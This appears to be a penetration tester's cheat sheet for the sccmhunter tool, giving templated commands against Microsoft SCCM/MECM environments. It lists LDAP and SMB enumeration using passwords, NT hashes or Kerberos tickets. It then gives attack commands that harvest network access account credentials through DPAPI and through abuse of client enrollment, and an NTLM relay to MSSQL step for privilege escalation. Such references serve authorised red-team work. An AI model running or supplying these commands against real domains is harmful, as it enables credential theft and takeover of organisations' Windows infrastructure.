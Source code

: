 # sccmhunter

% sccm, mecm
#plateform/linux  #target/remote #cat/RECON 

## desc
```
https://github.com/garrettfoster13/sccmhunter
https://github.com/garrettfoster13/sccmhunter/wiki

.sccmhunter/logs/db/find.db
to install set dependencies on last version (i.e remove version in requirements.txt)

```

##  enum - ldap (creds)
```bash
python3 sccmhunter.py find -debug  -u <user> -p <password> -d <domain_fqdn> -dc-ip <dc_fqdn>
```

##  enum - ldap (pth)
```bash
python3 sccmhunter.py find -debug  -u <user> -hashes :<nt_hash> -d <domain_fqdn> -dc-ip <dc_fqdn>
```

##  enum - ldap (ptt)
```bash
KRB5CCNAME=<ccache>  python3 sccmhunter.py find -debug  -u <user> -no-pass -k -d <domain_fqdn> -dc-ip <dc_fqdn>
```

## enum - smb (creds)
```bash
python3 sccmhunter.py smb -debug  -u <user> -p <password> -d <domain_fqdn> -dc-ip <dc_fqdn>
```

## show - all
```bash
python3 sccmhunter.py show  -all
```


#cat/ATTACK 

## harvest naa - DPAPI (cred local admin)
```bash
python3 sccmhunter.py dpapi -debug  -u <user>  -p '<password>' -target <target_ip>
```


## harvest naa - DPAPI (pth local admin)
```bash
python3 sccmhunter.py dpapi -debug  -u <user>  -hashes :<nt_hash> -target <target_ip>
```

## harvest naa - http (abuse client enrollment)
```bash
python3 sccmhunter.py http -debug  -u <user> -p '<password>' -d <domain_fqdn> -mp <sccm_fqdn> -dc-ip <dc_fqdn> -sleep <sleep|10> -auto
```

## privesc - ntlmrelay to mssql helper
```bash
python3 sccmhunter.py mssql -stacked -d <domain_fqdn -dc-ip <dc_fqdn> -tu <target_user> -sc <sccm_site_code> -u <user> -p '<password>'
```